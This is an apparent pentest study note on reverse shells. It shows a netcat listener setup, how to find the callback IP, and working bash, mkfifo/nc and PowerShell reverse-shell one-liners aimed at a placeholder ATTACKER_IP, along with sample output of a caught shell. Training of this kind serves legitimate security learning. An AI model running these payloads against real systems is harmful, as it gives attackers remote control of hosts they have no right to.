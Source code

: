 ## Definition

A [[Reverse Shell]] is a type of [[Shell]] connection initiated from the target machine back to the attacker machine. It is often used when the target is behind a firewall that restricts incoming connections but allows outgoing ones. This is a common method to gain control over a compromised host after achieving [[Remote Code Execution (RCE)]].

## Setting up a Listener

The first step is to start a listener on the attacker machine to catch the incoming connection. [[Netcat]] is commonly used for this:

```shell-session
Iskandeur@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
```

Key [[Netcat]] flags:

| Flag      | Description                                                     |
| --------- | --------------------------------------------------------------- |
| `-l`      | Listen mode, wait for incoming connections.                    |
| `-v`      | Verbose mode, show connection status.                           |
| `-n`      | Numeric-only IP addresses, no DNS resolution (faster).        |
| `-p 1234` | Port number to listen on (e.g., 1234).                          |

With the listener running, the next step is executing a command on the target to connect back.

## Identifying the Callback IP

The reverse shell command needs the attacker's IP address to connect back to. Use commands like `ip a` (Linux) or `ipconfig` (Windows) on the attacker machine to find the correct IP address accessible from the target (e.g., VPN IP, public IP).

```shell-session
Iskandeur@htb[/htb]$ ip a

...SNIP...

3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 500
    link/none
    inet 10.10.10.10/23 scope global tun0
...SNIP...
```

*Note: Choose the appropriate network interface (e.g., `tun0` for VPN, `eth0` for LAN/External) based on network topology.* 

## Reverse Shell Commands

The specific command depends on the target OS and available tools. [PayloadAllTheThings - Reverse Shell Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/) provides a comprehensive list. 

Common reliable examples:

**Linux ([[Shell#Common Shells|Bash]])**

```bash
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP PORT >/tmp/f
```

**Windows ([[Powershell]])**

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',PORT);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ' ;$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

*(Replace `ATTACKER_IP` and `PORT` with your listener details)*

Execute one of these commands on the target via the vulnerability (e.g., RCE exploit). A connection should appear on the [[Netcat]] listener:

```shell-session
Iskandeur@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Considerations

- **Pros:** Often bypasses firewalls, relatively easy to set up.
- **Cons:** Can be fragile; requires re-exploitation if the connection drops. Less interactive than a full TTY shell (though can often be upgraded using tools like Python's `pty` module or [[Socat]]). 

See also: [[Bind Shell]], [[Web Shell]], [[Shell]]